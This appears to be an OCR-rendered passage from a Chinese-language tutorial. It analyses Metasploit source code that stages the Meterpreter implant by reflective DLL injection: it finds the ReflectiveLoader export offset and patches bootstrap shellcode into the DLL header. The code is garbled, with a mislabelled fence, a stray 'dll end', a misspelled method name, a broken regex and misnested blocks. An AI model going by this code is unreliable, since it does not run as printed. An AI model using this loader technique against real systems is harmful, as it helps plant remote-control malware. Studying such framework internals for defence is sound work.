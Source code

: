 ```c
def stage_meterpreter(opts={}) 
    # Exceptions will be thrown by the mixin if there are issues. 
    dll, offset = load_rdi_dll(MetasploitPayloads.meterpreter_path('metsrv', 'x86.dll'))//得到 ReflectiveLoader 函数的偏移 
    asm_opts = { 
        rdi_offset: offset, 
        length: dll.length, 
        stageless: opts[:stageless] == true
    } 
    asm = asm_invoke_metsrv(asm_opts) 
    # generate the bootstrap asm 

    bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string 

    # sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry 
    if bootstrap.length > 62 
        raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!" 
    end 

    # patch the bootstrap code into the dll's DOS header... 
    dll[ 0, bootstrap.length ] = bootstrap dll end
    dll 
end
```

来看一下下面的代码。

此函数功能：读取 dll，接着调用 parse\_pe 函数得到 ReflectiveLoader 函数的偏移，在第 11 行返回了 dll 的数据与函数的便宜。

parse\_pe 函数通过遍历 dll 的导出表得到名字是 ReflectiveLoader 函数的偏移

```c
def load_rdi_dll(dll_path) 
    dll = '' 
    ::File.open(dll_path, 'rb') { |f| dll = f.read } 
    offset = parse_pe(dll) 
    unless offset 
        raise "Cannot find the ReflectiveLoader entry point in #{dll_path}" 
    end 

    return dll, offset 
end 

def parse_pe(dll) 
    pe = Rex::PeParsey::Pe.new(Rex::ImageSource::Memory.new(dll)) 
    offset = nil 

    pe.exports.entries.each do |e| 
        if e.name =~ /^\\S\*ReflectiveLoader\\S\*/ 
        offset = pe.rva_to_file_ofset(e.rva) 
        break 
    end 
end 
    offset 
end
```
